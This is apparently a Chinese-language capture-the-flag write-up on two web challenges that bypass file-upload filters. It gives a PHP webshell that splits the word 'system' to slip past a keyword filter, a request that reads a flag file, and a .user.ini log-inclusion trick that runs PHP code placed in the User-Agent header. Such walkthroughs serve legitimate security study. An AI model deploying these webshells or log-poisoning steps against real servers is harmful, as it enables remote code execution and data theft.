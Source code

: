 这题没有限制文件类型，可以上传php

应该是对关键词有过滤

![image-20250129235142888](../assets/image-20250129235142888.png)

简单拼接一下试试，没想到直接成功了

payload

```
<?php $a="sys"."tem"; $a($_REQUEST[1]);?
```

```
GET 1=tac%20../flagaa.php
```





#### web169

.user.ini文件包含

**前端做了校验只能传`zip`文件,后端又做了图片文件检查(需要改成image/png).过滤了`<>`和`php`**

**先上传一个`index.php`，然后利用日志包含，上传`.user.ini` 写入以下内容进行包含然后`UA`里面写木马**

```
auto_append_file="/var/log/nginx/access.log"

<?=system('cat ../flagaa.php')?>
```
